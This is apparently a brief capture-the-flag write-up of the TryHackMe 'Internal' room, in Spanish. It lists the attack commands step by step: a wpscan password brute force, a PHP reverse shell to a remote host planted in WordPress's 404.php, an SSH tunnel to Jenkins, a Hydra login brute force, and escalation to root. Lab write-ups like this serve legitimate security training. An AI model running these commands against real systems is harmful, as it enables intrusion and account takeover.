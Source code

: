 ```yaml
---
title: "TryHackMe - Internal "
description: "Wordpress RCE, SSH tunneling, Jenkins privesc"
pubDate: 2025-08-26
draft: false
---
```



##  WordPress (admin/my2boys)

```bash
wpscan --url http://10.10.137.140/blog -U admin -P /usr/share/wordlists/rockyou.txt
Reverse Shell en 404.php:

  ```

```bash
php

<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.0.0.1/4444 0>&1'"); ?>
  ```

## Acceso a Jenkins
```bash

ssh -L 9999:127.0.0.1:8080 aubreanna@10.10.137.140
  ```
## Fuerza bruta con Hydra:

```bash
hydra -l admin -P rockyou.txt 127.0.0.1 -s 9999 http-form-post "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^:Invalid"
  ```

```bash

su root
  ```